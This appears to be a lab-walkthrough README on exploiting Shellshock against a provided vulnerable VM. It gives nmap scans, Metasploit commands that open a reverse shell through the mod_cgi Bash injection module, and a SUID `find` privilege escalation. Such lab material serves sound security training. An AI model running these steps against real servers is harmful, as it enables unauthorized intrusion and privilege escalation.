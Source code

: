 # Shellshock

This repository describes how to exploit the Bash Shellshock vulnerability. 

## Topics
- [Background](#background)
- [Use Case](#use-case)
- [Prerequisites](#prerequisites)
- [Usage](#usage)
  - [Scan the Network](#scan-the-network)
  - [Attack the Program](#attack-the-program)
  - [Create a Reverse Shell](#create-a-reverse-shell)
  - [Escalate Privileges](#escalate-privileges)
- [Resources](#resources)

## Background

Shellshock is a GNU Bash vulnerability that was discovered in 2014. The Shellshock vulnerabililty can affect numerous systems and attack vectors. GNU Bash through version 4.3 processes trailing strings after function definitions in environment variable values. This allows attackers to execute arbitrary code by using those external variables. The Shellshock vulnerability affects multiple vectors including the mod_cgi and mod_cgid methods of the Apache HTTP server that display dynamic content on web pages and applications. The Shellshock exploit can be launched either remotely or from a local machine.

## Use Case

The Shellshock vulnerability should only be exploited in a research environment. Running the Shellshock exploit enables researches to become better acquainted with common vulnerabilities that should be remediated. Exploiting the Shellshock vulnerability in a research environment can help users become acquainted with penetration testing tools and methods.

## Prerequisites

Shellshock exploitation requires a vulnerable machine. A vulnerable Shellshock virtual machine called `shellshock_server.ova` can be [downloaded here](https://gtvault-my.sharepoint.com/:u:/g/personal/rheavican3_gatech_edu/EVihwYFaVDlChicYIgfXPHIBMLW_kOUUO8sTaJ7b8JLw2A?e=jIvhZ6). The password for `shellshock_server.ova` is `77t*#bT8sd`. The `shellshock_server.ova` virtual machine should be run in hypervisor that runs Open Virtualization Format files, such as VirtualBox.

An instance of Kali linux is required to exploit the vulnerable `shellshock_server.ova` virtual machine. The latest Kali image can be downloaded at the [official Kali download page](https://www.kali.org/get-kali/). The Kali virtual machine should be deployed on the same virtual network as `shellshock_server.ova`. 

## Usage

Perform the following tasks to exploit the Shellshock vulnerability in `shellshock_server.ova`:

### Scan the Network

The IP address of the vulnerable virtual machine must be identified to exploit the Shellshock vulnerability. Use `ifconfig -a` in a Kali terminal to identify the virtual network.

Scan the virtual network to identify the vulnerable server. Kali linux includes the Nmap open-source network discovery tool. Run the following command in a Kali terminal to scan the virtual network for hosts: Replace `$Subnet` with the network acquired through `ifconfig -a`.

```
nmap scan $Subnet
```

Run the following command in a Kali terminal to identify all open ports of the vulnerable host. Replace `$IPAddress` with the host IP address found in the previous Nmap scan:

```
nmap -p- $IPAddress
```

Use CURL to connect to any open HTTP ports identified by Nmap to determine if they are vulnerable to Shellshock. Replace `$IPAddress` and `$Port` with the IP address and open HTTP port identified by Nmap:

```
curl http:// <$IPAddress>:<$Port>/cgi-bin/shellshock.cgi
```

The server is vulnerable to Shellshock if the content of the URL is returned in the terminal. The returned URL will be used to attack the vulnerable CGI program.

### Attack the Program

Use the Metasploit framework included in Kali to exploit the vulnerable Shellshock server identifed using Nmap. Type `msfconsole` in a Kali terminal to launch the Metasploit framework.

Metasploit's primary components consist of exploit modules and exploit payloads. Metasploit modules are written to exploit specific vulnerabilities. Metasploit payloads are the packets that are sent within the exploit. 

Use the Apache mod_cgi Bash Environment Variable Code Injection Metasploit module to exploit the vulnerable server identified in Nmap. This module sets the `HTTP_User_Agent` environment variable to a malicious function definition to exploit the mod_cgi script on the Apache web server. Run the following commands in metasploit to run the module:

```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

Specify the remote host to be exploited in the Metasploit module by running the following command. Replace `#IPAddress` with the IP address of the vulnerable server identified using Nmap.

```
set rhost #IPAddress
```

Specify the URL of the vulnerable target CGI program with the following command:

```
set targeturi /cgi-bin/shellshock.cgi
```

### Create a Reverse Shell

Now the payload needs to be used to exploit the vulnerable Shellshock server. Use `show payloads` to show the possible payloads for the current mod_cgi bash injnection module. Use the `linux/x86/shell/reverse_tcp` reverse shell exploit by running the following commands:

```
set payload linux/x86/shell/reverse_tcp
check
exploit
```

This will create a reverse shell session on the vulnerable server. 

### Escalate Privileges

The `shellshock_server.ova` virtual machine is vulnerable to privilege escalation in addition to its Shellshock vulnerability. Use `/bin/bash -i` to create an interactive Bash session on the reverse shell session. Then use the `whoami` command to identify the user account running the reverse shell session. `whoami` will show the user running the reverse shell as `www-data`.

Navigate to `/usr/bin` and run `ls -la` to identify any programs that use permissions for users other than `www-data`. `ls -la` will show that the `find` program has user privileges for the user `shellshock_server`. Launch a Bash session with the privileges of the `shellshock_server` user by running the following command:

```
find /usr/bin/ -name find -exec /bin/bash -ip \;
```

Use the `whoami` command to confirm that privileges for the Bash session have been escalated to the user `shellshock_server`

## Resources
- [Kali Download Page](https://www.kali.org/get-kali/)
- [Vulnerable Virtual Machine]((https://gtvault-my.sharepoint.com/:u:/g/personal/rheavican3_gatech_edu/EVihwYFaVDlChicYIgfXPHIBMLW_kOUUO8sTaJ7b8JLw2A?e=jIvhZ6))
- [Shellshock CVE](https://nvd.nist.gov/vuln/detail/cve-2014-6271)
- [Shellshock Exploitation](https://www.infosecarticles.com/exploiting-shellshock-vulnerability/)
- [Metasploit Shellshock Exploitation](https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/)
- [Metasploit Exploit for Apache mod_cgi Bash Environment Variable Code Injection](https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec/)
- [Shell Spawning](https://rcenetsec.com/shell-spawning/)
- [Privilege Escalation](https://tbhaxor.com/exploiting-suid-binaries-to-get-root-user-shell/)
